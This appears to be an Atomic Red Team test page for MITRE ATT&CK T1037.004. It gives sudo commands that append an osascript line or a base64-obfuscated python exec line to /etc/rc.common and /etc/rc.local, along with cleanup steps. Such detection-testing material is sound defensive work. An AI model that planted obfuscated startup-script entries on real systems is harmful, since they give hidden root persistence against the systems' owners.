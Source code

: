# T1037.004 - RC Scripts
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/004)
<blockquote>Adversaries may establish persistence by modifying RC scripts which are executed during a Unix-like system’s startup. These files allow system administrators to map and start custom services at startup for different run levels. RC scripts require root privileges to modify.

Adversaries can establish persistence by adding a malicious binary path or shell commands to <code>rc.local</code>, <code>rc.common</code>, and other RC scripts specific to the Unix-like distribution.(Citation: IranThreats Kittens Dec 2017)(Citation: Intezer HiddenWasp Map 2019) Upon reboot, the system executes the script's contents as root, resulting in persistence.

Adversary abuse of RC scripts is especially effective for lightweight Unix-like distributions using the root user as default, such as IoT or embedded systems.(Citation: intezer-kaiji-malware)

Several Unix-like systems have moved to Systemd and deprecated the use of RC scripts. This is now a deprecated mechanism in macOS in favor of [Launchd](https://attack.mitre.org/techniques/T1053/004). (Citation: Apple Developer Doco Archive Launchd)(Citation: Startup Items) This technique can be used on Mac OS X Panther v10.3 and earlier versions which still execute the RC scripts.(Citation: Methods of Mac Malware Persistence) To maintain backwards compatibility some systems, such as Ubuntu, will execute the RC scripts if they exist with the correct file permissions.(Citation: Ubuntu Manpage systemd rc)</blockquote>

## Atomic Tests

- [Atomic Test #1 - rc.common](#atomic-test-1---rccommon)

- [Atomic Test #2 - rc.common](#atomic-test-2---rccommon)

- [Atomic Test #3 - rc.local](#atomic-test-3---rclocal)


<br/>

## Atomic Test #1 - rc.common

auto_generated_guid: 97a48daa-8bca-4bc0-b1a9-c1d163e762de

Modify rc.common

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/StartupItems.html)
**Supported Platforms:** macOS





#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo echo osascript -e 'tell app "Finder" to display dialog "Hello World"' >> /etc/rc.common
```






<br/>
<br/>

## Atomic Test #2 - rc.common

auto_generated_guid: c33f3d80-5f04-419b-a13a-854d1cbdbf3a

Modify rc.common
**Supported Platforms:** Linux





#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.common';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.common.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.common
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMuY29tbW9uID4gL3RtcC9UMTAzNy4wMDQucmMuY29tbW9uJykK'))\"" | sudo tee -a /etc/rc.common
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.common
sudo chmod +x /etc/rc.common
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.common.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.common;else sudo cp $origfilename /etc/rc.common && sudo rm $origfilename;fi
```





<br/>
<br/>

## Atomic Test #3 - rc.local

auto_generated_guid: 126f71af-e1c9-405c-94ef-26a47b16c102

Modify rc.local
**Supported Platforms:** Linux





#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.local';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.local.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.local
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMubG9jYWwgPiAvdG1wL1QxMDM3LjAwNC5yYy5sb2NhbCcpCgo='))\"" | sudo tee -a /etc/rc.local
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.local.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.local;else sudo cp $origfilename /etc/rc.local && sudo rm $origfilename;fi
```





<br/>
